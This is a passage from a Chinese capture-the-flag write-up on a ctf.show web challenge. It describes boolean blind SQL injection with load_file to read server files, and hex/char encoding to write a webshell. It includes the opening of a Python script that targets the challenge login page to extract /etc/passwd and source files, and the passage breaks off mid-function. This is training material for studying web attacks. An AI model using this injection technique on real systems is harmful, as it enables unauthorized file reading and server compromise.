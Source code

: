 其实整个过程开始以为单双引号都过滤了，所以用的其他方式，并且读到了源码，读美了

- 布尔盲注 + load_file 读取文件
- hex编码、char函数写入webshell


布尔盲注读取文件，属于运气好，猜到`flag.txt`文件名了，换个难猜的就必须写🐎了

![44](/medias/ctfshow-web/44.png)

使用`concat`、`hex`函数读取文件

```python
import requests

url = "http://5225f93f-e444-49d0-9bbb-fac89d89c23c.challenge.ctf.show/login.php"

flag = ""
i = 1

# 文件路径转十六进制
def str2hex(s):
    return "0x" + s.encode("utf-8").hex()

file_path = str2hex("/etc/passwd")
# file_path = str2hex("/var/www/html/login.php")
# file_path = str2hex("/flag.txt")
print("[#] LOAD_FILE 路径:", file_path)

def visual_char(c):
    """把特殊字符可视化"""
    if c == "\n":
        return "\\n"
    elif c == "\r":
        return "\\r"
    elif c == "\t":
        return "\\t"
    elif ord(c) < 32 or ord(c) > 126:
```
